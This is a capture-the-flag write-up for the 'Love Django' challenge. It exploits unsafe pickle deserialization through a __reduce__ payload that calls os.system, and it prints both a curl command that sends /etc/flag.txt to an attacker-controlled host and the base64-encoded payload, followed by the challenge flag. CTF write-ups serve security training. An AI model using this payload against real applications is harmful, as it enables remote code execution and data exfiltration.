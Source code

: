 # Love Django(998 pts) (2 solves) #

![TASK](https://imgur.com/Z73SeQV.png)

This task was published in Securinets-Mini CTF but unfortunately it had 0 solves :'( However two teams managed to solve it in NCSC2.0_CTF , the idea is simple we have an unsafe serialization using pickle, let's begin our road !

When we visit the url we have this web application that generates an id and has an upload and download functionality

![WEB](https://imgur.com/ShHvMqy.png)

we try to generate an id and download it and BINGO the filename is pickle_shinobi.data, so now we are pretty sure that it's an unsafe serialization 

![WEB](https://imgur.com/usG1M4H.png)

Now we will use the famous pickle magic function __REDUCE__ and import os library then execute this simple command
> curl YourVpsIP/?a=\`cat /etc/flag.txt\`

Final Payload to Upload (Base64 encoded) :
> Y3Bvc2l4CnN5c3RlbQpwMAooUydjdXJsIFlvdXJWcHNJUC8/YT1gY2F0IC9ldGMvZmxhZy50eHRgJwpwMQp0cDIKUnAzCi4=

![WEB](https://imgur.com/HpGGVJK.png)

Ofc don't forget to listen on your server xd And Bingo we have our flag :D 

>Securinets{DjanGo_1}
